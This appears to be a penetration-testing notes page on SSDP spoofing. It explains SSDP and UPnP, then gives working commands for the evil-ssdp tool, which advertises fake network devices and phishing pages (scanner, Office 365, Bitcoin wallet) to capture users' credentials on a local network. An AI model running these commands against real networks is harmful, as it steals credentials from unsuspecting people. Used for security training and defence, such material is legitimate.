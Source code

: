 # 🟨 SSDP Spoofing

## <mark style="color:red;">SSDP</mark>

SSDP or Simple Service Discovery Protocol is a network protocol designed for advertisement and discovery of network services. It can work without any DHCP or DNS Configuration. It was designed to be used in residential or small office environments. It uses UDP as the underlying transport protocol on port 1900. It uses the HTTP method NOTIFY to announce the establishment or withdrawal of services to a multicast group. It is the basis of the discovery protocol UPnP.

## <mark style="color:red;">UPnP</mark>

UPnP or Universal Plug and Play is a set of networking protocols that allows networked devices, such as personal computers, printers, Internet gateways, Wi-Fi access points, and mobile devices to discover each other’s availability on the network and establish network services for communications, data sharing, and entertainment. The UPnP architecture supports zero-configuration networking. A UPnP compatible device from any vendor can dynamically join a network, obtain an IP address, announce its name, advertise or convey its capabilities upon request, and learn about the presence and capabilities of other devices.

## <mark style="color:red;">Evil SSDP</mark>

{% embed url="https://github.com/initstring/evil-ssdp" %}

A tool for setting up a fake SSDP device and phishing the user for clear text credentials:

{% hint style="warning" %}
The attacker has to be in the same network as the target systems.
{% endhint %}

```
git clone https://github.com/initstring/evil-ssdp.git
cd evil-ssdp/ls
python3 evil-ssdp.py --help
```

to run the attack :&#x20;

```
python3 evil-ssdp.py -i eth0
```

{% hint style="info" %}
#### The default template is office 365 login console, you can change the template with -t \[template name]
{% endhint %}

&#x20;to setup a fake scanner for phishing, use the scanner template:

```
python3 evil-ssdp.py eth0 --template scanner
```

if the user clicks on the scanner icon in windows explorer > networks, the default browser will open up a web page and ask for credentials in order to connect to the device:

![](<../../.gitbook/assets/image (205).png>)

if the user enters the credentials, EvilSSDP will grab and show them

![](<../../.gitbook/assets/image (118).png>)

## <mark style="color:red;">Other templates</mark>

### <mark style="color:orange;">Office 365</mark>

```
python3 evil_ssdp.py eth0 -t office365
```

![](<../../.gitbook/assets/image (2).png>)

### <mark style="color:orange;">Bitcoin Wallet</mark>

```
python3 evil_ssdp.py eth0 -t bitcoin -b
```

![](<../../.gitbook/assets/image (2) (1) (1) (1).png>)

check the repository for other available templates or use your own template and xml description file.
